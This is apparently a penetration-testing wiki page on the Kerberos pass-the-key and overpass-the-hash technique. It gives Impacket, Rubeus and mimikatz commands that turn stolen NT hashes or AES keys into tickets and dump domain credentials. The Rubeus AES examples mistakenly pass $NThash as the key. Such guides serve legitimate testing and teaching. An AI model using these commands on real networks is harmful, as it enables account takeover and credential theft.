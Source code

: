# Pass the key

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. A Service Ticket (ST) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](broken-reference)).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called pass-the-key.

Kerberos offers 4 different key types: DES, RC4, AES-128 and AES-256.

* When the RC4 etype is enabled, the RC4 key can be used. The problem is that the RC4 key is in fact the user's NT hash. Using a an NT hash to obtain Kerberos tickets is called [**overpass the hash**](opth.md).
* When RC4 is disabled, other Kerberos keys (DES, AES-128, AES-256) can be passed as well. This technique is called **pass the key**. In fact, only the name and key used differ between overpass the hash and pass the key, the technique is the same.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [getTGT](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) (Python) can request a TGT (Ticket Granting Ticket) given a password, hash (`LMhash` can be empty), or aesKey. The TGT will be saved as a `.ccache` file that can then be used by other Impacket scripts.

```bash
# with an NT hash (overpass-the-hash)
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

# with an AES (128 or 256 bits) key (pass-the-key)
getTGT.py -aesKey 'KerberosKey' $DOMAIN/$USER@$TARGET
```

Once a TGT is obtained, the tester can use it with the environment variable `KRB5CCNAME` with tools implementing [pass-the-ticket](broken-reference).

An alternative to requesting the TGT and then passing the ticket is using the `-k` option in Impacket scripts. Using that option allows for passing either TGTs or STs. Example below with secretsdump.

```bash
secretsdump.py -k -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Windows" %}
On Windows, requesting a TGT can be achieved with [Rubeus](https://github.com/GhostPack/Rubeus) (C#). The ticket will be injected in the session and Windows will natively be able to use these tickets to access given services.

```bash
# with an NT hash
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# with an AES 128 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$NThash /ptt

# with an AES 256 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$NThash /ptt
```

An alternative to Rubeus is [mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
# with an NT hash
sekurlsa::pth /user:$USER /domain:$DOMAIN /rc4:$NThash /ptt

# with an AES 128 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

# with an AES 256 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](broken-reference).
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.notso.pro/2020-05-09-offops-in-ad-1/" %}

{% embed url="http://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash" %}

{% embed url="https://blog.stealthbits.com/how-to-detect-overpass-the-hash-attacks/" %}
